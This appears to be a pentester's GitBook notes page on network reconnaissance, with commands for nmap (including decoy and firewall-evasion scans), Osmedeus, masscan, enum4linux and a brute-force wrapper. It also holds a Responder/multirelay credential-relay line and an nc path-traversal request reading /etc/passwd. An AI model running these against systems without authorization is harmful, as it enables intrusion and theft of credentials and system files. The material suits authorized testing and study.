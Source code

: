 ```yaml
---
description: Let's start
---
```


# Information Gathering

![](../../.gitbook/assets/5e7d51357ab4c.png)

## Nmap

The most useful nmap commands that are often used are the following:

{% tabs %}
{% tab title="General" %}
```
nmap -sn -iL ips.txt -oA alive
nmap -A -O -v -Pn -iL ips.txt -oA services-deep
nmap -A -p- -v -T4 Pn -iL ips.txt -oA full-ports
nmap --script=vuln -Pn -v -iL ips.txt -oA common-vulns
```
{% endtab %}

{% tab title="Miscellaneous" %}
```
# Evading Firewalls (-P0)
nmap -sS -P0 192.168.89.191

Spoofing & Decoy Scan
nmap -sS 192.168.89.191 -D 10.0.0.1,10.0.0.2,10.0.0.4

#Gathering Version Info
nmap -V 192.168.89.191

# UDP scan
nmap -sU --reason 192.168.89.191

# SMB
smb-vuln*,smb-os-discovery in --script
```
{% endtab %}
{% endtabs %}

## Sparta

TODO: sparta

## IVRE

I like the idea to automate the process of information gathering within a specific internal network. That is exactly what [IVRE](https://www.ivre.rocks). You can simply `apt install ivre.` A guide for usage can b found [here](https://github.com/cea-sec/ivre/tree/master/doc/usage) and also a cool [tutorial](https://offensivesec.blogspot.com/2016/01/ivre-python-network-recon-framework\_37.html).

```
# Import results from nmap (XML)
ivre scan2db
# Import results to the web interface
ivre db2view nmap
```

## Osmedeus

With a similar approach, [Osmedeus](https://github.com/j3ssie/Osmedeus) can evaluate an internal (and external) network with a variety of features.&#x20;

{% tabs %}
{% tab title="Installation" %}
```
git clone https://github.com/j3ssie/Osmedeus
cd Osmedeus
./install.sh
```
{% endtab %}

{% tab title="How to use" %}
```
./osmedeus.py -t example.com
```
{% endtab %}

{% tab title="Examples" %}
```
# normal routine
./osmedeus.py -t example.com
./osmedeus.py -T list_of_target.txt

# direct mode examples
./osmedeus.py -m subdomain -t example.com
./osmedeus.py -m portscan -i "1.2.3.4/24"
./osmedeus.py -m "portscan,vulnscan" -i "1.2.3.4/24" -w result_folder

# direct list mode examples
./osmedeus.py -m portscan -I list_of_targets.txt
./osmedeus.py -m portscan,vulnscan -I list_of_targets.txt
./osmedeus.py -m screen -I list_of_targets.txt -w result_folder

# report mode
./osmedeus.py -t example.com --report list
./osmedeus.py -t example.com --report export
./osmedeus.py -t example.com --report sum
./osmedeus.py -t example.com --report short
./osmedeus.py -t example.com --report full
```
{% endtab %}
{% endtabs %}

There is even a [Docker container](https://github.com/mablanco/docker-osmedeus) for Osmedeus.

## enum4linux

This is a useful to gather information from Linux and Windows targets.

```
enum4linux target
```

## tl4m4t

&#x20;[**t14m4t**](https://github.com/MS-WEB-BN/t14m4t) is an automated brute-forcing attack tool, wrapper of [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) and [Nmap Security Scanner](https://github.com/nmap/nmap).

{% tabs %}
{% tab title="Installation" %}
```
git clone https://github.com/MS-WEB-BN/t14m4t/
cd t14m4t
sudo chmod +x t14m4t
```
{% endtab %}

{% tab title="Usage" %}
```
./t14m4t <target> <number of threads>
./t14m4t 192.168.0.1 32
./t14m4t /targets/targetlist.txt 32
```
{% endtab %}
{% endtabs %}

## Nessus

Well, obiously Nessus can be used as a tool for information gathering. If you have a license, I highly recommed using this tool as a must. [Here](https://astrix.co.uk/news/2019/11/26/nessus-professional-tips-and-tricks#index) are some really, REALLY useful tips and tricks.

You will eventually have a lot, and I mean a **lot**, of Nessus scans. Sometimes, these scans can be from just one target network. I use [this tool](https://github.com/TheSecEng/NessusMerger-Dirty) to merge those scan files and save some time.

```
python3 nessusmerger.py -l DIRECTORY_OF_NESSUS_FILES -o Merged_Report.nessus
```

## Hydra

TODO: hydra -t 4

## Responder

TODO: `Tools > runfinger, analyser mode`

config responder smb off http off

responder -I tap --lm `;` multirelay -t target -u ALL

## Metasploit

TODO: Metasploit (NFS Mount Scanner)

## NC

nc 10.20.35.30 80&#x20;

GET /../../../../../../../../../../../../etc/passwd HTTP/1.1

### Kerberos

{% embed url="https://github.com/ropnop/kerbrute" %}

### TCPDump

{% embed url="https://medium.com/@int0x33/day-45-tcpdump-a-digital-predator-capable-of-giving-low-level-hackers-god-like-powers-6be0a42d0095" %}

{% embed url="https://medium.com/@int0x33/day-17-looking-for-credit-cards-in-files-a6cc9f44db9e" %}

### Masscan

```
masscan 10.0.0.0/8 192.168.0.0/16 172.16.0.0/12 --rate 550 --output-format list --output-filename resultados-all.txt -p80,22,443,21,445,3389 --open-only
```

{% embed url="https://kalilinuxtutorials.com/masscan/" %}

![](<../../.gitbook/assets/imagen (5).png>)

### Wireshark

{% embed url="https://github.com/security-cheatsheet/wireshark-cheatsheet" %}

### IKE

{% embed url="https://raxis.com/blog/2018/05/23/ike-vpns-supporting-aggressive-mode" %}

### UDP

{% embed url="https://medium.com/bugbountywriteup/why-you-should-always-scan-udp-ports-part-1-2-d8ee7eb26727" %}

{% embed url="https://github.com/Knowledge-Wisdom-Understanding/recon" %}

{% embed url="https://github.com/SolomonSklash/htbenum" %}

{% embed url="https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/" %}

### SMB

{% embed url="https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html" %}

{% embed url="https://github.com/0xspade/Automated-Scanner" %}

